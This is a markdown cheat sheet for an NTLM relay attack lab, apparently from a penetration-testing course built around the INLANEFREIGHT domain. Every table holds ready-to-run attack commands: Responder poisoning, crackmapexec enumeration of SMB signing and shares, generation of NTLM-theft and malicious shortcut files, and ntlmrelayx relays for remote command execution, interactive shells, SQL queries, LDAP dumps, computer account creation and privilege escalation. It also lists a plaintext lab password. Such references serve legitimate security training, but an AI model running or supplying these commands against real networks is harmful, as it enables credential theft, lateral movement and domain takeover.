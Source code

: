 ## Enumeration

| `Command` | `Description` |
| --- | --- |
| `python3 Responder.py -I ens192 -A` | Responder Analyze Mode |
| `python3 Responder.py -I ens192` | Responder Poisoning mode |
| `python3 RunFinger.py -i 172.16.117.0/24` | Enumerate the network for host with SMB signing off, in addition to finding whether some standard services are running on the host |
| `crackmapexec smb 172.16.117.0/24 --gen-relay-list relayTargets.txt` | Enumerate the network for host with SMB signing off |
| `crackmapexec smb 172.16.117.0/24 -u anonymous -p '' --shares` | Enumerate shared folders |
| `crackmapexec smb 172.16.117.0/24 -u plaintext$ -p o6@ekK5#rlw2rAe -M webdav` | Enumerate WebDav servers |

---

## Farming Hashes

| `Command` | `Description` |
| --- | --- |
| `python3 ntlm_theft.py -g all -s 172.16.117.30 -f '@myfile'` | Create NTLM Theft files |
| `crackmapexec smb 172.16.117.3 -u anonymous -p '' -M slinky -o SERVER=172.16.117.30 NAME=important` | Generate a shortcut .lnk file and set the target to 172.16.117.30 |
| `crackmapexec smb 172.16.117.3 -u anonymous -p '' -M drop-sc -o URL=https://172.16.117.30/testing SHARE=smb FILENAME=@secret` | Generate a shortcut .searchConnector-ms file and set the target to https://172.16.117.30/testing |

---

## NTLMRelayx

| `Command` | `Description` |
| --- | --- |
| `ntlmrelayx.py -tf relayTargets.txt -smb2support` | Execute default NTLM Relay attack to the computers defined as targets using the option -tf relayTargets.txt |
| `ntlmrelayx.py -t 172.16.117.50 -smb2support -c "whoami"` | Execute a command in the target machine |
| `ntlmrelayx.py -t smb://172.16.117.50` | Single General Target to SMB |
| `ntlmrelayx.py -t mssql://172.16.117.50` | Single General Target to MSSQL |
| `ntlmrelayx.py -t ldap://172.16.117.50` | Single General Target to LDAP |
| `ntlmrelayx.py -t all://172.16.117.50` | Single General Target to All services |
| `ntlmrelayx.py -t smb://INLANEFREIGHT\\PETER@172.16.117.50` | Single Named Target |
| `ntlmrelayx.py -tf relayTargets.txt -smb2support -socks` | Using SOCKs Connections |
| `ntlmrelayx.py -tf relayTargets.txt -smb2support -i` | Interactive SMB Client Shells |
| `ntlmrelayx.py -t mssql://INLANEFREIGHT\\NPORTS@172.16.117.60 -smb2support -q "SELECT name FROM sys.databases;"` | Query Execution |
| `ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --lootdir ldap_dump` | Domain Enumeration |
| `ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --no-da --no-acl --add-computer 'plaintext$'` | Computer Accounts Creation |
| `ntlmrelayx.py -t ldap://172.16.117.3 -smb2support --escalate-user 'plaintext$' --no-dump -debug` | Privileges Escalation via ACLs Abuse |

---